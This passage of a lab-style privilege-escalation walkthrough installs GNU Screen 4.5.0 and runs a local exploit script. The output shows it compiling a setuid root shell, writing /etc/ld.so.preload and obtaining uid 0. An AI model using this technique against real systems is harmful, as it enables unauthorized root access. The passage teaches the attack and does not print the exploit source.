
Then we'll install it with the command line using the following commands:

```shell
cd screen-4.5.0/
sudo apt install libncurses5-dev
./configure
make
sudo make install screen
```

We'll then verify if the program has been installed in the system:

```shell
user@pwn:~/Downloads/screen-4.5.0$ screen --version
Screen version 4.05.00 (GNU) 10-Dec-16
```

Next, we'll attempt to exploit the `GNU Screen` program:

```shell
user@pwn:~$ vim exploit.sh
user@pwn:~$ chmod +x service_exploit.sh 
user@pwn:~$ ./exploit.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-low.

# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000 (user)
# 
```

As shown above, vulnerable service can lead us to higher privileges.
